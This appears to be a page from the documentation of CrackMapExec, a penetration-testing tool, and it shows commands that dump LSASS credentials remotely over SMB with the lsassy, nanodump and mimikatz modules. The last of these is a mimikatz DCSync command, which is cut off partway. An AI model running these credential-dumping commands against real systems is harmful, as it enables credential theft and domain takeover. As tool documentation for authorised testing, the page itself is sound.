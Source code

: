 # Dump LSASS



Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo)you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M lsassy
```

<figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### Using nanodump

Using the module nanodump you can dump remotely the credentials&#x20;

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

```
#~ cme smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ cme smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:doma
```

